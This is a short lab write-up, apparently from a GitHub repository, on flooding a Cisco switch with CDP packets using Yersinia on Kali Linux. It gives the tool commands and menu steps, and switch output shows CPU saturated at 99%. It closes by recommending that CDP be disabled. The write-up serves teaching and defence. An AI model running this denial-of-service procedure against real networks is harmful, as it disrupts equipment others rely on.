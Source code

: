 ```yaml
---
title: CDP flooding
---
```


# CDP flooding

1. Goal
    * To saturate the CPU of a Cisco device.

2. Used hardware
    * 1 laptop with Kali Linux
    * 1 Cisco device

3. Used software
    * Kali Linux (2019.4)

4. Setup
    
    ![Success](./assets/setup.png)

5. Getting started
    1. Check if CDP (Cisco Discovery Protocol) is enabled on the Cisco device.
    
    [More information about CDP](https://en.wikipedia.org/wiki/Cisco_Discovery_Protocol)
    ```
    Switch#show cdp
    Global CDP information:
        Sending CDP packets every 60 seconds
        Sending a holdtime value of 180 seconds
        Sending CDPv2 advertisements is enabled
    Switch#
    ```
    2. Check the CPU usage of the Cisco device
    ```
    Switch#show processes cpu history

                         11111
          444445555577777444445555577777444445555555555555555555544444
    100
    90
    80
    70
    60
    50
    40
    30
    20
    10      *************************     ********************
         0....5....1....1....2....2....3....3....4....4....5....5....6
                   0    5    0    5    0    5    0    5    0    5    0
                   CPU% per second (last 60 seconds)
    ```
    3. Install Yersinia on Kali Linux (if necessary)
   
    [More information about Yersinia](https://tools.kali.org/vulnerability-analysis/yersinia)
    ```
    root@kali:~# apt-get update
    root@kali:~# apt-get upgrade
    root@kali:~# apt-get install yersinia
    ```
    4. Launching CDP flooding
    ```
    root@kali:~# yersinia -G
    ```
    ![Success](./assets/yersinia.png)

    Select Launch attack -> flooding CDP table

    ![Success](./assets/attack.png)

    The result of the attack can be seen in the following outputs.
    ```
    Switch#show cdp traffic
    CDP counters :
        Total packets output: 30, Input: 36432
        Hdr syntax: 0, Chksum error: 0, Encaps failed: 0
        No memory: 0, Invalid packet: 0,
        CDP version 1 advertisements output: 5, Input: 36432
        CDP version 2 advertisements output: 25, Input: 0
    Switch#
    ```
    ```
    Switch#show processes cpu history
       999999999999999999999999999999999999999999999999999999999999
       999999999999999999999999999999999999999999999999999999999999
   100 **********************************************************
    90 **********************************************************
    80 **********************************************************
    70 **********************************************************
    60 **********************************************************
    50 **********************************************************
    40 **********************************************************
    30 **********************************************************
    20 **********************************************************
    10 **********************************************************
       0....5....1....1....2....2....3....3....4....4....5....5....6
                 0    5    0    5    0    5    0    5    0    5    0
                 CPU% per second (last 60 seconds)
    ```
6. Conclusion 
    * It is recommended to disable CDP whenever possible.